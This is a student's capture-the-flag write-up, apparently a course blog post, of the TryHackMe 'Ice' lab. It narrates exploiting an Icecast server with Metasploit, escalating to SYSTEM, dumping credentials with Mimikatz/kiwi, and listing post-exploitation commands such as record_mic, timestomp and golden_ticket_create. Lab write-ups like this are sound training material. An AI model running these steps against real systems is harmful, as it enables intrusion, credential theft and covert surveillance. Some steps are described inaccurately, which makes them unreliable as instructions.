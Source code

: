 ```yaml
---
layout: post
title: Week 6 Lab
published: true
---
```

Try Hack Me: ICE




I used “nmap  -sC –Pn 10.10.120.100  and waited a bit until it spit out some information. It showed me a bunch of options for ports and the one that stood out to me was “port 3389” the Microsoft Remote Desktop. The 8000 port was Icecast and the hostname is “DARK-PC”.  

 

I then checked out the page linked for security vulnerabilities and found this page https://www.cvedetails.com/vulnerability-list/vendor_id-693/product_id-1194/version_id-3715/Icecast-Icecast-1.3.7.html  

The vulnerability was called Execute Code Overflow with the CVE # being: CVE-2004-1561.  

Then I started up Metasploit using “msfconsole” and then used “search icecast”. Which showed the same exploit shown on the page. I then used “Use 0” and it brought up “exploit(windows/http/icecast_header) > and then used “search options”.  

The only required setting which is currently blank is “RHOSTS”.  

I then changed the RHOSTS to “Set RHOSTS 10.10.120.100” and used “exploit” (spelled it wrong a few times...)  

The shell name is now “meterpreter”. I used LS to list the processes and the user running icecast was “Dark”. The build of the windows is “7601” and the architecture of the process is “x64”.   

I then used “run post/multi/recon/local_exploit_suggester” and waited for it to complete. The first full path was “exploit/windows/local/bypassuac_eventvwr” 

I backgrounded the session using ctrl+z and set the session to 1.  I tried exploit again and it failed. I looked and saw that using “show options” that the localhost IP was wrong, so I changed it to “set LHOST 10.10.120.100” and tried another exploit. 

I then typed “getprivs” and the one to allow us to take ownership of files is called “SeTakeOwnershipPrivilege” 

I used ps and then saw which ones were run by NT/Authority/System, and need to migrate to the “spoolsv.exe”, a printer spool service. I used “migrate -N”. The user I got with “getuid” is NT Authority\System.  

I read up on Mimikatz some more and used “load kiwi”, the tym page says it’s an updated version of Mimikatz. I used “load kiwi” and then “creds_all” Dark’s password is “Password01”. 

I used the help command to get info for these questions and reading about Mimikatz and Kiwi articles. 

The command that allows to dump all password hashes is “hashdump” so I tried using that. 

The command that allows us to watch the remove users desktop in real time is “screenshare” 

Recording from a microphone attached to the system is done by using “record_mic” 

Modifying time stamps of files is “timestomp” 

Golden Ticket is done with “golden_ticket_create” 

I authenticated the machine using “run/post/windows/manage/enable_rdp 
